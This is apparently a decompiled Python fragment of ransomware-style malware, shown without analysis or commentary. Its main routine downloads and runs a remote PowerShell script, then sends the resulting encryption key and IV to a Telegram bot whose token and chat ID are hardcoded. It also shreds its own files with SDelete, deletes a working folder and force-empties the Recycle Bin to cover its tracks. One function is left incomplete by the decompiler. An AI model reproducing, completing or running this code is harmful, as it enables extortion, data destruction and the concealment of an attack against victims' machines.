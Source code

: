 ```python
        return (cee, vee)


def send_to_telegram(key, iv, token, chat_id):
    message = f'''Key: {key}\nIV: {iv}'''
    url = f'''https://api.telegram.org/bot{token}/sendMessage'''
    data = {
        'chat_id': chat_id,
        'text': message,
        'protect_content': True }
    response = requests.post(url, data = data)


def securely_delete_files(ps_script_path, flag_file_path):
    if os.path.exists(ps_script_path):
        subprocess.run([
            sdelete_exe_path,
            ps_script_path], check = True)
    if os.path.exists(flag_file_path):
        subprocess.run([
            sdelete_exe_path,
            flag_file_path], check = True)
        return None


def delete_encrypt_folder(folder_path):
Unsupported opcode: JUMP_BACKWARD
    pass
# WARNING: Decompyle incomplete


def move_to_recycle_bin(item_path):
    ps_command = f'''\n    $shell = New-Object -ComObject Shell.Application\n    $folder = $shell.Namespace(0xA)\n    $folder.MoveHere("{item_path}")\n    '''
    subprocess.run([
        'powershell.exe',
        '-Command',
        ps_command], check = True)


def empty_recycle_bin():
    ps_command = '\n    $recycleBin = New-Object -ComObject Shell.Application\n    $binFolder = $recycleBin.Namespace(0xA)\n    $items = $binFolder.Items()\n    $items | ForEach-Object { Remove-Item $_.Path -Force -Recurse }\n    '
    subprocess.run([
        'powershell.exe',
        '-Command',
        ps_command], check = True)


def main():
    download_file(ps_script_url, ps_script_path)
    download_file(sdelete_zip_url, sdelete_zip_path)
    extract_sdelete(sdelete_zip_path, current_dir)
    (cee, vee) = execute_powershell_script(ps_script_path)
    if cee and vee:
        telegram_token = '7457737016:AAEvv7iDxEzpd9bxMmY9BBwZM0rE2e9Yef0'
        chat_id = '1617506446'
        send_to_telegram(cee, vee, telegram_token, chat_id)
    securely_delete_files(ps_script_path, flag_file_path)
    delete_encrypt_folder(temp_encrypt_folder)
    empty_recycle_bin()

```
